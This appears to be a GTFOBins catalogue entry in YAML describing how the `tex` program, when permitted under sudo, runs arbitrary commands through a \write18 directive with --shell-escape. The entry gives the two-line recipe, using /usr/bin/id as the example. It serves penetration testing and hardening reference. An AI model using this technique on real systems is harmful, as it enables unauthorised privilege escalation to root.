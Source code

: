 description: `tex` has a similar behaviour as [`pdftex`](/gtfobins/pdftex/)
functions:
  sudo:
    - code: |
        echo "\documentclass[12pt]{article} \begin{document} \write18{/usr/bin/id} \end{document}" > file.tex
        tex -interaction=nonstopmode --shell-escape file.tex
